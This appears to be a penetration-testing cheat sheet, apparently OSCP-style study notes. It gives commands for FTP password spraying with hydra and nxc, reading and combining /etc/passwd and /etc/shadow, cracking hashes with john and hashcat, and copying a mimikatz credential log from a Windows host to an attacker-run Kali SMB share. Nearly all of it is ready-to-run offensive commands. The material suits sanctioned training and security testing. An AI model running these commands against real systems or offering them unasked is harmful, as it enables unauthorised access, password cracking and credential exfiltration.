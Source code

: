 ## FTP
```bash
# FTP password spraying with custom user list
hydra -l 'itadmin' -P ~/pwk/rockyou.txt ftp://192.168.168.202  
nxc ftp  <IP> -u user  -p 'pass' --ls     # list directory contents
nxc ftp  <IP> -u user  -p 'pass' --get flag.txt  # get file named flag.txt
```
## Password Cracking
- Identify users that can read shadow `grep 'shadow' /etc/group `
- Output hash to file `echo '$6$4kpaRzOQ$mMa/' > roothash.txt`
### John
```bash
john roothash2.txt --wordlist=$rockyou  
john roothash2.txt --show  

# If needed, combine passwd + shadow into single file
sudo unshadow /etc/passwd /etc/shadow > my_hashes.txt
```
### Hashcat
* [Hashcat Rules](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
* [Hashcat MODE ID](https://hashcat.net/wiki/doku.php?id=example_hashes)
```bash
# Sha512-crypt $6$
hashcat -m 1800 -a 0  roothash.txt $rockyou --force -o cracked

# show password, with mode of hash
hashcat -m  0 hash.txt --show    

# use rule to Mutate wordlist for passord policy and crack  MD5
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r demo.rule --force

# identify hashes 
hash-identifier '056df33e47082c77148dba529212d50a'   

# uppercase.rule is 
u 
# then run hashcate against uppercase.rule
hashcat -a 0 -m <mode> <hashfile> <wordlist> -r uppercase.rule

```
## Windows to Kali File Transfer
### SMB 

```bash
# On Kali:
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
# On Windows:
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```
